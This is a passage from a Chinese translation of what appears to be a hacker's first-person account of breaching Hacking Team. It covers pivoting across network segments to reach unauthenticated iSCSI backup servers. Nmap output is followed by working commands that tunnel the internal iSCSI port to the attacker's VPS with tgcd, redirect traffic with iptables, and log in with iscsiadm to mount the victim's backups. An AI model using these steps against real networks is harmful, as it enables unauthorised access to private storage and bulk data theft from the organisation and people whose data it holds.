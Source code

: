 ```
|   databases
...
|_    version = 2.6.5

```

这些是做RCS测试的实例。RCS抓到的音频都存储在MongoDB里面。400G种子里面的音频就是来自这里，他们也在监视着自己。

0x07 跨网段
========

* * *

比较有趣的是，看着监视器中正在开发恶意软件的HT，尽管这对我的渗透来说并没有什么用。他们不安全的备份系统是下一个敞开的大门。根据他们自己的文档，他们的iSCSI系统应该在一个分离的网段，但是却在192.168.1.200/24网段被nmap扫描出来了：

```
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:ht-synology.name
|     Address: 192.168.200.66:3260,0
|_    Authentication: No authentication required

Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:synology-backup.name
|     Address: 10.0.1.72:3260,0
|     Address: 192.168.200.72:3260,0
|_    Authentication: No authentication required

```

iSCS需要一个核心模块，这个核心模块在我的嵌入式系统中很难编译。所以我准备把端口转发出来以便于能够在VPS上挂载。

```
VPS: tgcd -L -p 3260 -q 42838
Sistema embebida: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

```

iSCSI发现了`iqn.2000-01.com.synology`，但是在挂载的时候出现了一些问题，它的地址同时是`192.168.200.72`和`127.0.0.1`。

解决办法是：

```
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

```

然后：

```
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login

```

